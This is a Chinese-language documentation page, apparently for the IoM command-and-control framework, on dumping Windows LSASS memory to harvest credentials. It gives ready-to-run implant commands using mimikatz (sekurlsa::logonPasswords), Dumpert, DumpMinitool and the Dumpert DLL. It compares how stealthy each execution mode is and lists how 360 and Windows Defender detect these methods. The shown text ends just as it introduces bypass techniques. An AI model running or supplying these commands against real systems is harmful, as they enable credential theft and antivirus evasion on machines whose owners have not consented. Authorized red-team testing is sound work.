

repository: chainreactors/wiki · page: IoM/user-guide/advanced/dump-lsass/index.html · generator: mkdocs

---
title: Dump LSASS
description: 通常在提权或绕过UAC后，我们会使用诸如 Mimikatz 或 一些DumpLSASS 工具来获取 lsass.dmp，进而提取凭据。本文将主要举例如何在
  IOM 环境中的用法。
edition: community
generated: false
source: mn:operations/advanced/dump-lsass.md
---

# Dump LSASS

通常在提权或绕过UAC后，我们会使用诸如 Mimikatz 或 一些DumpLSASS 工具来获取 lsass.dmp，进而提取凭据。本文将主要举例如何在 IOM 环境中的用法。

## 一些常见的导出方法

按照执行方式举例

### PE

- mimikatz
- procdump 
- dumpert
- avdump
- sqldumper.exe
- 等等

你可以使用execute_exe
```
execute_exe "D:\TOOL\iom_test\mimikatz.exe" -- log "privilege::debug" "sekurlsa::logonPasswords full" exit
```
![mimikatz](../../assets/usage/lsass/mimikatz.png)

和execute_exe相比, inline_exe的隐蔽性会更好, 但是稳定性方面一些不稳定操作crash或查杀会导致implant直接崩溃
```
inline_exe "D:\TOOL\iom_test\Outflank-Dumpert.exe"
```
![Dumpert](../../assets/usage/lsass/dumpert.png)

### C\#

- DumpMinitool
- SharpDump
- 等

同样的, 你可以找到对应的execute_assembly和inline_assembly来执行
```bash
execute_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
inline_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
```


### Dll

- dumpert-dll
- comsvcs.dll

```
execute_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
inline_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
```

## Bypass 360/Windows Defender
以上大多数方法都已失效，360和Windows Defender都会直接查杀，一些日志相关结果如下:

1. 文件落地执行直接查杀

2. 牺牲进程注入查杀

3. 读取LSASS敏感信息查杀

4. 检测到lsass.dmp文件转存储到了本地磁盘的查杀lsass.dmp文件本身

360核晶, [附截图](../../assets/usage/lsass/360hvm.png)

Windows Defender , [附截图](../../assets/usage/lsass/windows_defender.png)

下面介绍几个bypass方法。
